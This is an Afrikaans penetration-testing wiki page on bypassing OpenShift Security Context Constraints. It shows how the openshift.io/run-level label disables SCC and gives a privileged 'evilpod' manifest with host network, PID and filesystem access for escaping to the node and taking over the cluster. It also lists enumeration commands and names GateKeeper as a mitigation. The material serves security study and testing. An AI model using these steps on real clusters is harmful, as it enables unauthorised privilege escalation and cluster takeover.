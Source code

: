 # Openshift - SCC omseiling

**Die oorspronklike skrywer van hierdie bladsy is** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Bevoorregte Namespaces

Standaard, SCC geld nie op die volgende projekte nie:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

As jy pods binne een van daardie namespaces ontplooi, sal daar geen SCC afgedwing word nie, wat die ontplooiing van bevoorregte pods of die monteer van die gasheer lêerstelsel moontlik maak.

## Namespace Etiket

Daar is 'n manier om die SCC-toepassing op jou pod te deaktiveer volgens RedHat-dokumentasie. Jy sal ten minste een van die volgende toestemmings moet hê:

- Skep 'n Namespace en Skep 'n Pod op hierdie Namespace
- Wysig 'n Namespace en Skep 'n Pod op hierdie Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Die spesifieke etiket `openshift.io/run-level` stel gebruikers in staat om SCC's vir toepassings te omseil. Volgens RedHat-dokumentasie, wanneer hierdie etiket gebruik word, word daar geen SCC's op alle pods binne daardie naamruimte afgedwing nie, wat effektief enige beperkings verwyder.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Voeg Etiket By

Om die etiket in jou naamruimte by te voeg:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Om 'n naamruimte met die etiket deur 'n YAML-lêer te skep:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Nou, alle nuwe pods wat in die naamruimte geskep word, moet geen SCC hê nie.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In die afwesigheid van SCC is daar geen beperkings op jou pod-definisie nie. Dit beteken dat 'n kwaadwillige pod maklik geskep kan word om na die gasheerstelsel te ontsnap.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Nou het dit makliker geword om voorregte te verhoog om toegang tot die gasheerstelsel te verkry en gevolglik die hele kluster oor te neem, wat 'cluster-admin' voorregte verkry. Soek na die **Node-Post Exploitation** deel op die volgende bladsy:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Pasgemaakte etikette

Boonop, gebaseer op die teikenopstelling, kan sommige pasgemaakte etikette / annotasies op dieselfde manier gebruik word as die vorige aanvalscenario. Selfs al is dit nie gemaak vir nie, kan etikette gebruik word om toestemmings te gee, 'n spesifieke hulpbron te beperk of nie.

Probeer om na pasgemaakte etikette te soek as jy sommige hulpbronne kan lees. Hier is 'n lys van interessante hulpbronne:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Lys alle bevoorregte naamruimtes
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Gevorderde uitbuiting

In OpenShift, soos vroeër gedemonstreer, kan die toestemming om 'n pod in 'n naamruimte met die `openshift.io/run-level`-etiket te ontplooi lei tot 'n eenvoudige oorneem van die kluster. Vanuit 'n klusterinstellingsperspektief **kan hierdie funksionaliteit nie gedeaktiveer word** nie, aangesien dit inherent is aan OpenShift se ontwerp.

Egter, versagtingsmaatreëls soos **Open Policy Agent GateKeeper** kan voorkom dat gebruikers hierdie etiket stel.

Om GateKeeper se reëls te omseil en hierdie etiket te stel om 'n kluster oorneem uit te voer, **sal aanvallers alternatiewe metodes moet identifiseer.**

## Verwysings

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
